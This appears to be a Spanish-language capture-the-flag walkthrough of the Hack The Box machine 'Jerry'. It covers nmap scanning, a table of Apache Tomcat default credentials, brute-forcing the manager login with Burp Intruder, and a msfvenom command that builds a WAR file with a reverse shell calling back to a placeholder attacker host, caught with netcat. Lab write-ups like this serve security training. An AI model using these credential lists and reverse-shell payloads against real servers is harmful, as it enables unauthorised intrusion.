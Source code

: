# 5 - Jerry \(win\_easy\)

## **Scanning**

```text
nmap -T4 -p- -A -sS 10.10.10.4
```

![](../../.gitbook/assets/imagen%20%28556%29.png)

Tenemos un **apache tomacat default page**.

![](../../.gitbook/assets/imagen%20%28552%29.png)



### Apache Tomcat Default Credentials

| Username | Password |
| :--- | :--- |
| admin | password |
| admin |  |
| admin | Password1 |
| admin | password1 |
| admin | admin |
| admin | tomcat |
| both | tomcat |
| manager | manager |
| role1 | role1 |
| role1 | tomcat |
| role | changethis |
| root | Password1 |
| root | changethis |
| root | password |
| root | password1 |
| root | r00t |
| root | root |
| root | toor |
| tomcat | tomcat |
| tomcat | s3cret |
| tomcat | password1 |
| tomcat | password |
| tomcat |  |
| tomcat | admin |
| tomcat | changethis |

### Usando burpsuit

Lo arracamos con todo default

Vamos a proxy -&gt; opciones vemos la ip

Lo ponemos como proxy de firefox

![](../../.gitbook/assets/imagen%20%28549%29.png)

#### Enviando una default credential

Al entrar al login probamos tomcat tomcat pero antes de enviarla probamos ver donde estan esos parametros. 

![](../../.gitbook/assets/imagen%20%28559%29.png)

Bien el problema aqui es que aparece como Basic: y algo encriptado \(en la ultima linea\), para esto lo enviamos al decoder. En el decoder lo podemos cambiar a base64 y verlos en plain text

![Resultado](../../.gitbook/assets/imagen%20%28548%29.png)

No hubo suerte con el anterior.

Hacemos **gedit** con las contraseñas y usuarios por defecto, reemplazamos \(cntl h\) el espacio en el medio por un **:** ya que es el formato por defecto que vimos.

![](../../.gitbook/assets/imagen%20%28557%29.png)

Hacemos un bash script para pasar eso todo a base64

```text
for cred in $(cat tomcat.txt); do echo -n $cred | base64; done
```

Back al burpsuit, desde ahi ponemos el modo intruder en sniper. Seleccionamos el archivo en base64 y desde payloads le cargamos los hashes.

![](../../.gitbook/assets/imagen%20%28562%29.png)

Pasandole el payload llegamos al correcto, decodificandola era **tomcat:s3cret**

![](../../.gitbook/assets/imagen%20%28561%29.png)

### **Inside tomcat**

![](../../.gitbook/assets/imagen%20%28554%29.png)

Vemos que maneja los archivos WAR, podemos subir alguno, probemos uno malicioso de google.

Con msfvenom

```text
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war
```

Usaremos netcat para escuchar la entrada del reverse shell

![](../../.gitbook/assets/imagen%20%28550%29.png)

![](../../.gitbook/assets/imagen%20%28560%29.png)



